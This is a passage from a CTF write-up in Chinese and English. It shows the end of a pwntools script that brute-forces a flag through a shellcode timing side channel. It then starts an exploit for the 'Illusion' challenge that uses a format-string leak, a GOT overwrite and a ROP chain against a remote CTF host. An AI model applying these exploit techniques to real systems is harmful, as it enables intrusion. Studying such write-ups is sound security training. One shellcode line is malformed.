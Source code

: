 ```python
        cmp cl, {}
        
    n:
        je y
        push 0x0xFFFFFFFFFFFFFFFF
        ret
        
    y:
        ret
    '''.format(hex(offset), ord(alpha)))

    p.sendline('exec '.encode() + payload)
    try:
        p.recv(timeout = 1)
        
    except:
        return False
    
    return True

if __name__ == '__main__':
    flag, idx = 'FLAG{', 5
    try:
        while True:
            for a in printable:
                if OuO(a, idx):
                    flag += a
                    if a == '}':
                        success(f'Flag FOUND! : {flag}')
                        exit()

                    idx += 1
                    success(f'Success! Now Flag: {flag}')
                    break
    except:
        info('Exiting...')

```

### Illusion
從Local看的話可以發現有個沒用的Buffer overflow。因為printf會自動在字串後面加上`\x00`，然後puts讀到`\x00`才停下。
沒辦法Information leak。

![Illusion_main](https://i.imgur.com/9WaKtU6.png)

Local看不出個所以然，所以就轉移到remote隨便試試看。
送個%p居然丟了Address給我，所以我猜remote的環境在不明原因下puts跟printf對調了。


因為有PIE，所以先Fmt Leak。然後Binary是Partial RELRO，GOT可寫。
算出gadgets的位置後，在Stack上放好ROP Chain，再修改`exit@got.plt`想辦法控制Stack Pointer到ROP Chain上。
Exp:
```python
from pwn import *


#p = process('/home/Illusion/illusion')
p = remote('eofqual.zoolab.org', 10104)

libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')

p.sendlineafter('?\n', 'STAR%15$p|%11$p')
p.recvuntil('STAR')
leak = p.recvline()[:-1].split(b'|')
```